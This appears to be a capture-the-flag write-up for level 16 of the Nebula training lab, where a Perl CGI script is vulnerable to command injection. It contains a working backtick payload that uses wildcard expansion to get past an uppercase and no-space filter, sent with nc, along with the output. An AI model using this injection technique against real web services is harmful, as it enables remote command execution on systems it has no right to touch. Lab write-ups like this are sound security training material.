

# Nebula - [LEVEL 16](https://exploit.education/nebula/level-16/)

Level Description:




# Nebula - [LEVEL 16](https://exploit.education/nebula/level-16/) - Solution

By observing the code we can see the line which allows us to inject our command:
```perl
@output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
```

No lowercase letters are allowed (converted to uppercase letters) and no spaces are allowed (everything after a space will be stripped away).

We can bypass the restrictions by sending ``` `/*/*/GETFLAG` ``` - This makes use of bash's wildcard expansion feature to run the ```GETFLAG``` file.

Let's send the payload using ```nc``:
```console
level16@nebula:/tmp/level16$ nc localhost 1616
GET /index.cgi?username=`/*/*/GETFLAG`
Content-type: text/html

<html><head><title>Login resuls</title></head><body>Your login failed<br/>Would you like a cookie?<br/><br/></body></html>
level16@nebula:/tmp/level16$ ls -ltr /tmp/gf16
-rw-r--r-- 1 flag16 flag16 59 2022-01-13 22:44 /tmp/gf16
level16@nebula:/tmp/level16$ cat /tmp/gf16
You have successfully executed getflag on a target account

```